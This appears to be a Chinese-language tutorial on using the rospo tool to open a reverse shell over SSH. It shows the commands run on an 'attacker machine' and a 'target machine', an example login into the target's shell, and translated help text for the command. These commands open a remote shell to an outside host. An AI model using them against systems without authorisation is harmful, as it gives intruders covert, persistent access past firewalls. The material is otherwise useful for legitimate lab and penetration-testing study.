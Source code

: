 

### 反向 shell

rospo反向Shell的核心机制是：靶机首先主动连接至攻击机的SSH服务器，通过建立SSH隧道将攻击机上的指定端口远程转发到靶机本地。特别之处在于，`rospo revshell`命令会**自动完成两个关键操作**：既建立远程端口转发通道，又直接在靶机端启动本地SSH服务（无需额外部署其他SSH服务程序）。此时攻击机连接自身被转发的本地端口，即可通过加密隧道直接访问靶机自启动的SSH服务。



攻击机监听 2222 端口，开启 ssh 服务，密码为 111

```
rospo revshell root@10.12.0.100:2222 -i -A 111
```



靶机连接到攻击机 ssh 服务，开启远程端口转发（监听远程的 3333 端口），开启本地 ssh 服务，设置端口为 4444 （远程 3333 端口转发到本地 4444 端口），本地 ssh 服务密码为 222

```
rospo revshell root@10.12.0.100:2222 -r 127.0.0.1:3333 -i -p 111 -A 222 -P :4444
```



攻击机使用 ssh 连接到本地的 3333 端口，就可以连接到靶机的 ssh 服务。

```
root@xiaoshae:/opt# ssh root@127.0.0.1 -p 3333

 .---------------.
 | 🐸 rospo sshd |
 .---------------.

root@127.0.0.1's password: 
[root@linux1 ~]# 
```



命令示例

```
启动本地SSH守护进程并将其端口转发至远程主机

前置检查：
  1. 远程服务器公钥需存在于known_hosts文件中（使用insecure参数可禁用此验证）
     可通过'grabpubkey'命令显式获取公钥
  2. 您的身份凭证需在远程服务器授权（可通过keygen命令生成新凭证）
  3. 本地authorized_keys文件需已创建且包含至少一个密钥以支持反向连接
     此处可使用不同选项，请参考"-K"参数说明

用法：
  rospo revshell [user@]主机[:端口] [参数]

示例：

  # 在user@server的默认远程地址:2222启动反向shell
  $ rospo revshell user@server	

  # 在远程地址:6666启动反向shell，并拉取GitHub公钥
  $ rospo revshell -r :6666  -K http://github.com/[用户].keys user@server

参数：
  -T, --disable-auth                      禁用身份验证（允许客户端无认证连接）
  -b, --disable-banner                    禁用服务器横幅显示
  -h, --help                              显示帮助信息
  -i, --insecure                          禁用已知主机密钥验证（跳过known_hosts检查）
  -j, --jump-host string                  指定跳板机配置（可选）
  -k, --known-hosts string                known_hosts文件绝对路径（默认"/root/.ssh/known_hosts"）
  -p, --password string                   SSH客户端密码
  -r, --remote string                     远程shell监听端点（默认"127.0.0.1:2222"）
```